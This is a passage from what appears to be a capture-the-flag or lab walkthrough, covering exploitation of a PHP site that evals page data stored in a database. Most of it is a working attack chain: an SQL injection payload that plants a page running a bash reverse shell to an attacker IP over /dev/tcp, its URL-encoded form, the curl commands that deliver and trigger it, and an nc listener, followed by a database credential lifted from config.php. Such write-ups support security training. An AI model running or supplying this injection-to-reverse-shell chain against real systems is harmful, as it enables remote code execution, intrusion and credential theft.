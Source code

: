```
    eval(get_page($conn, "/"));
}


mysqli_close($conn);

?>
```

Creating code to insert data into SQL for a shell.
```
/shell"; INSERT INTO webpages(route_string, page_data) VALUES ('/celibarin', 'echo shell_exec("bash -i >& /dev/tcp/192.168.49.197/31337 0>&1");'); --
```

URL Encoding using https://www.urlencoder.org/
```
shell%22%3B%20INSERT%20INTO%20webpages%28route_string%2C%20page_data%29%20VALUES%20%28%27%2Fcelibarin%27%2C%20%27echo%20shell_exec%28%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.197%2F31337%200%3E%261%22%29%3B%27%29%3B%20--
```

Running cURL command to run script.
```
curl http://192.168.197.162/shell%22%3B%20INSERT%20INTO%20webpages%28route_string%2C%20page_data%29%20VALUES%20%28%27%2Fcelibarin%27%2C%20%27echo%20shell_exec%28%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.197%2F31337%200%3E%261%22%29%3B%27%29%3B%20--
```

Opening a NC listener and running a cURL command to navigate to created page to run reverse shell.
```
nc -nlvp 31337
curl http://192.168.197.162/celibarin
```

Shell as apache user.
![](../Attachments/Pasted%20image%2020211007221801.png)

---

# Privilege Escalation
## Enumeration
### Database username and password Exposed
Database username and password exposed in config.php
```
website:4c0b569e4c96df157eee1b65dd0e4d41
```
